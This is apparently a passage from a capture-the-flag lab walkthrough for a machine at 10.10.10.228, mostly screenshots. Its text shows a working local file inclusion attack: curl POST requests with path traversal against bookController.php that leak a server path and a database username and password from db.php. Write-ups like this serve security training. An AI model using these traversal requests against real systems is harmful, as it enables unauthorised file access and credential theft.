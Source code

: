 1. saving the file as index.html
2. hosting a python server to take a look at that file


![image](https://user-images.githubusercontent.com/68326057/117794799-324bb800-b26b-11eb-96c4-c0c4ad422d92.png)


## --> File.html

![image](https://user-images.githubusercontent.com/68326057/117794884-45f71e80-b26b-11eb-8b16-0ded035e62d0.png)

![image](https://user-images.githubusercontent.com/68326057/117795234-9d958a00-b26b-11eb-9c40-c09b46e69b8c.png)

Not submitting anywhere ;_;

![image](https://user-images.githubusercontent.com/68326057/117796495-c4a08b80-b26c-11eb-8b6e-d935a5240497.png)

![image](https://user-images.githubusercontent.com/68326057/117796601-deda6980-b26c-11eb-9d6c-210285b976fc.png)


--> https://10.10.10.228/php/books.php

![image](https://user-images.githubusercontent.com/68326057/117796801-07fafa00-b26d-11eb-846b-125aaf910dd2.png)


![image](https://user-images.githubusercontent.com/68326057/117796882-19440680-b26d-11eb-8db5-7c738739f211.png)

## LFI

```bash
 curl -XPOST -d "book=../index.html&method=1" http://10.10.10.228/includes/bookController.php
```
```html
<br />
<b>Warning</b>:  file_get_contents(../books/../index.html): Failed to open stream: No such file or directory in <b>C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php</b> on line <b>28</b><br />
false
```

![image](https://user-images.githubusercontent.com/68326057/117799090-6628dc80-b26f-11eb-9b41-cb5c7fd0d278.png)

```bash
curl -XPOST -d "book=../db/db.php&method=1" http://10.10.10.228/includes/bookController.php
```

```php
"<?php\r\n\r\n$host=\"localhost\";\r\n$port=3306;\r\n$user=\"bread\";\r\n$password=\"jUli901\";\r\n$dbname=\"bread\";\r\n\r\n$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());\r\n?>\r\n"
```

## CREDS
